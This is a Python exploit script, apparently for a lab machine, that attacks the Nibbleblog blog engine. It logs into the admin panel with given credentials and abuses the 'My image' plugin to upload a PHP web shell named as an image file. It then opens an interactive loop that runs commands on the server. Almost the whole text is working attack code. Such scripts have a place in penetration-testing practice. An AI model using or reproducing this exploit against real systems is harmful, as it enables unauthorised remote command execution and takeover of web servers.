 ```python3

def helPanel():
    print("python3 exploit.py --url http://10.10.10.10/ --username admin --password 123456")


def get_arguments():
    parser = optparse.OptionParser()
    parser.add_option('--url', dest='target', help='Url Target')
    parser.add_option('--username', dest='user', help='User to login')
    parser.add_option('--password', dest='password', help='Password to login')
    (options, arguments) = parser.parse_args()
    if not options.target:
        helPanel()
        parser.error("[-] Please indicate the url of target --url, for more information... --help")
    if not options.user:
        helPanel()
        parser.error("[-] Please indicate the username --username, for more information... --help")
    if not options.password:
        helPanel()
        parser.error("[-] Please indicate the password, for more information... --help")
    return options

def login(target, username, password):
    login_url = f'{target}/nibbleblog/admin.php'
    data = {"username": username, "password": password}
    try:
        r = SESSION.post(login_url, data, timeout=10, verify=False)
        if 'Dashboard' in r.text:
            print("[ + ] Login Succesfuly!")
        else:
            sys.exit("[ ! ] Login failed, exiting")
    except Exception as e:
        sys.exit("[-] Exception: {}".format(e))

def execute_commands(target, username, password):
    payload = '<?php echo shell_exec($_GET["cmd"]); ?>'
    login(target, username, password)
    image_url = f"{target}/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image"
    exec_path = f"{target}/nibbleblog/content/private/plugins/my_image/image.php"
    try:
          req = SESSION.get(image_url, timeout=10, verify=False)
    except Exception as e:
        sys.exit("[-] Exception: {}".format(e))
    if 'Plugins :: My image' in req.text:
        print("[+] Uploading shell...")

        data = {
            "plugin": (None, 'my_image'), "title": (None, 'My image'), "position": (None, 4), "caption": "",
            "image": ('doesnt_matter.php', payload, "application/x-php", {'Content-Disposition': 'form-data'}),
            "image_resize": (None, 1), "image_width": (None, 200), "image_height": (None, 200), "image_option": (None, 'auto')
        }
        
        try:
            upload = SESSION.post(url=image_url, files=data, timeout=10, verify=False)

            if 'Changes has been saved successfully' in upload.text:
                print(f"[ * ] Shell has been uploaded!")
                print(75 * '-')
                while True:
                    params = {"cmd": input("cmd> ")}
```